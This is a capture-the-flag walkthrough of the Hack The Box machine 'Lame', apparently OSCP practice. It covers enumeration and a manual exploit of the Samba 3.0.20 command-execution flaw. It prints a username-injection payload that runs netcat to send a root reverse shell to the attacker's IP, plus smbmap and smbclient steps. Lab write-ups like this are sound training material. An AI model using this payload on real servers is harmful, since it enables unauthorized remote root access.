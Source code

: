 # Lame

# Enumeration

## Nmap

My initial nmap scan reveals that this box is running FTP over port 21, SSH over port 22, and SMB over ports 139 and 445.

![Untitled](Lame%20476e2d869d2a43b4b00bc7aaac246927/Untitled.png)

I see that Anonymous login is allowed over FTP, so I’ll start with that.

## FTP

Logging into FTP shows that the box is running vsftpd 2.3.4, and there appears to be no files in the directory. 

![Untitled](Lame%20476e2d869d2a43b4b00bc7aaac246927/Untitled%201.png)

A quick search shows that vsftpd 2.3.4 is vulnerable to [backdoor command execution](https://www.exploit-db.com/exploits/49757). Before moving forward, I would still like to explore the SMB running on this box before attempting to exploit anything.

## SMB

Looking back at the nmap scan I can see that this box is running Samba 3.0.20. Another quick search shows that this version is vulnerable to a [command execution vulnerability](https://www.exploit-db.com/exploits/16320) as well.

Now that I have identified both vulnerabilities, I decide to start with the Samba exploit, as what I have seen about the exploit so far interests me the most.

# Exploitation

## Samba 3.0.20

Although there is a metasploit module for this exploit, I would like to better understand the vulnerability by exploiting it manually. Not only this, but on the OSCP metasploit is only allowed to be used once, so I think it is good practice to figure out how to manually exploit boxes like this one.

A quick search brings up this [exploit](https://github.com/amriunix/CVE-2007-2447) on github. Looking at the python code, it seems like the exploit is performed by connecting to SMB using a username of `/=`nohup [payload]`` . Since I would like a reverse shell back to my system, ill make my payload execute `/bin/sh` through netcat, connecting back to my machine over port 1234.

```bash
"./=`nohup nc -e /bin/sh 10.10.14.2 1234`"
```

To find out what shares can be accessed, Ill run smbmap on the box.

```bash
smbmap -H lame.htb
```

The results show me that only the `/tmp` share can be accessed, without proper credentials, so thats what Ill connect to. I start up a netcat listener over port 1234 to catch my shell and connect to the share using `smbclient`. Once I’m connected, I issue the `logon` command followed by my payload. I’m asked for a password, so I try hitting enter to see what happens.

![Untitled](Lame%20476e2d869d2a43b4b00bc7aaac246927/Untitled%202.png)

I get a connection back to my listener with a shell. A whoami check reveals that this is a root shell, no escalation needed!

![Untitled](Lame%20476e2d869d2a43b4b00bc7aaac246927/Untitled%203.png)

## User Flag

Ill navigate to the home directory and find a user named makis. This user’s home directory contains the user flag.

![Untitled](Lame%20476e2d869d2a43b4b00bc7aaac246927/Untitled%204.png)

## Root Flag

Lastly, I’ll grab the root flag from the root directory!

![Untitled](Lame%20476e2d869d2a43b4b00bc7aaac246927/Untitled%205.png)